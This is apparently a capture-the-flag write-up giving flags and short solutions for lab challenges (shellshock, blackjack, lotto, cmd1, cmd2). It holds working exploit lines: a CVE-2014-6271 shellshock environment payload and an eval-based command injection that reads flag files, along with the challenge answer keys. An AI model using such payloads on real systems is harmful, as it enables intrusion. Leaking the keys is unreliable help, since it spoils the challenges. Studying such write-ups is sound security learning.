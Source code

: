 ```python
# Stage 4

with open('\x0a', 'w') as f:
  f.write('\x00\x00\x00\x00')

```

# shellshock

key: only if I knew CVE-2014-6271 ten years ago..!!

solution: Just exploit the shellshock vulnerability (CVE-2014-6271).

```bash
export MUFN="() { :; }; cat /home/shellshock/flag"
./shellshock
```

# blackjack

key: `YaY_I_AM_A_MILLIONARE_LOL`

solution: make a bet for -10000000, play the hand, and then play another.


# lotto

key: `sorry mom... I FORGOT to check duplicate numbers... :(`

solution: the forloop is bugged, so you really only need to match one number.
Just use "######" as your input string and you should get it after 6 or 7
tries. We use "#" because it has an ascii decimal value less than 45. 

# cmd1

key: `mommy now I get what PATH environment is for :)`

solution: 

```bash

export MUFN="/bin/cat /home/cmd1/flag;"

#Note: we have to escape the $ so bash does substitute in the value
./cmd1 "eval \$MUFN"

```

# cmd2

key: `FuN_w1th_5h3ll_v4riabl3s_haha`
